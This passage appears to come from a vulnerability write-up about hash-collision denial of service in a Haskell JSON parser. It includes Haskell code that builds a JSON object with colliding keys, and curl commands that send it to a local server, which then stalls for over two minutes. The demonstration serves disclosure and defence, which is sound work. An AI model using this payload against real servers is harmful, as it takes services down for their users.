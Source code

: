 ```
                Left e -> error $ show (l, e)
                Right x -> return $ Just x
    let texts = concatMap extend texts'
    let obj = Object $ HM.fromList $ map (\t -> (t, Number 0)) texts
    print $ length texts
    let hashes = map hash texts
    let randoms =
            take (2 * length texts) $ map T.pack $ replicateM 20 ['A' .. 'Z']
    print $ HM.fromListWith (+) $ map (\h -> (h, 1)) hashes
    withBinaryFile "collide.json" WriteMode $ \h ->
        hPutBuilder h $ buildJSON texts
    withBinaryFile "no-collide.json" WriteMode $ \h ->
        hPutBuilder h $ buildJSON randoms

extend :: T.Text -> [T.Text]
extend text = map foo [0 .. 3]
  where
    foo len = T.append text $ T.replicate len "\0"

buildJSON :: [T.Text] -> Builder
buildJSON ts = "{" <> fold (intersperse (",") (map toPair ts)) <> "}"

toPair :: T.Text -> Builder
toPair text = fromEncoding (toEncoding text) <> ":0"
```

This can be run using [`./Construct.hs n_24.txt`](/assets/json-vulnerability/Construct.hs).

#### Attacking ourselves

To show the problem, first we start [the server](/assets/json-vulnerability/Server.hs):

```
$ ./Server.hs

```

Next, we generate [the malicious JSON object](/assets/json-vulnerability/collide.json):

```
$ ./Construct.hs n_24.txt

```

Then we can show the attack by uploading this JSON object using curl. First without the collisions and then with the collisions:

```
$ time curl -X POST http://localhost:3000 -d @no-collide.json
Complete
curl -X POST http://localhost:3000 -d @no-collide.json  0.01s user 0.01s system 5% cpu 0.313 total
$ time curl -X POST http://localhost:3000 -d @collide.json
Complete
curl -X POST http://localhost:3000 -d @collide.json  0.02s user 0.01s system 0% cpu 2:18.98 total

```
